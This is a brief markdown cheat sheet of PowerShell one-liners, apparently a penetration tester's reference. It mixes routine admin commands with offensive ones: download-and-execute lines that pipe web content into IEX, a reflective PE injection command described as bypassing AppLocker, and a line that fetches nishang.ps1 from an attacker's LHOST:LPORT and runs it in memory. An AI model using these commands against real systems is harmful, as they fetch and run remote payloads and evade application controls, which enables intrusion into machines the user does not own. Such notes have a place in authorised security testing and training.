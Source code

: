 # Extract zip file
`Expand-Archive <FILE>.zip`

# Download to disk
## using .Net WebClient:
`(New-Object System.Net.WebClient).DownloadFile('<URL>', <OUTPUTPATH>)`

## using Invoke-WebRequest
`IWR '<URL>' -OutFile <FILENAME>`

# Execute powershell in memory
`(New-Object Net.WebClient).DownloadString('<URL>') | IEX`

# Get files only in a directory
`(ls -File -Recurse -Force -EA SilentlyContinue).fullname`

# Get OS architecture
`$env:processor_architecture`

# Get Process Architecture
`[Environment]::Is64BitProcess`

# Get ACL
`Get-ACL <PATH_TO_FILE> | Select -Exp AccessToString`

# Get Process Owners
`Get-WmiObject -class win32_process | select name,@{n='owner';e={$_.getowner().user}}`

# Get .NET Version
## Paths:
`c:\windows\microsoft.net\framework`
`c:\windows\microsoft.net\framework64`
## Command:
`(Get-Item "c:\windows\microsoft.net\framework64\*\clr.dll").VersionInfo.ProductVersion`

# Reflective Execution (Can Bypass Applocker)
`Invoke-reflectivePEInjection -PEBytes ([IO.File]::ReadAllBytes('<PATH_TO_EXE>'))`


# CMD to powershell
`powershell "IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')"`